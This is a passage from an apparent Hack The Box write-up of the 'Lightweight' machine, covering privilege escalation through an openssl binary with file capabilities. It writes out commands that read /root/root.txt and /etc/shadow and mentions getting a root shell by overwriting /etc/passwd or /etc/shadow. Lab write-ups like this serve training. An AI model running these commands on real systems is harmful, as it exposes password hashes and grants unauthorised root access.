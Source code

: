 ![](/images/hackthebox/lightweight/25.png)
<br> Nothing interesting. Lets check the binaries. (We don't need `tcpdump` anymore so we will focus on `openssl`) 
<br> I checked the capabilities and I found that `openssl` has the `ep` capability which means it can read and write anything on the filesystem. 
![](/images/hackthebox/lightweight/26.png)
<br> This  means that we can simply read the root flag by using the base64 encoding function in `openssl` then decoding the file :
`./openssl enc -base64 -in /root/root.txt -out ./root.txt.b64`
<br>
<br>
`base64 -d root.txt.b64`
![](/images/hackthebox/lightweight/27.png)
<br> We can also get a root shell by overwriting `/etc/passwd` or `/etc/shadow`. I got a copy of the original `shadow` file first :
`./openssl enc -base64 -in /etc/shadow -out ./shadow.b64`
<br>
<br>
`base64 -d shadow.b64 > shadow`
<br>
<br>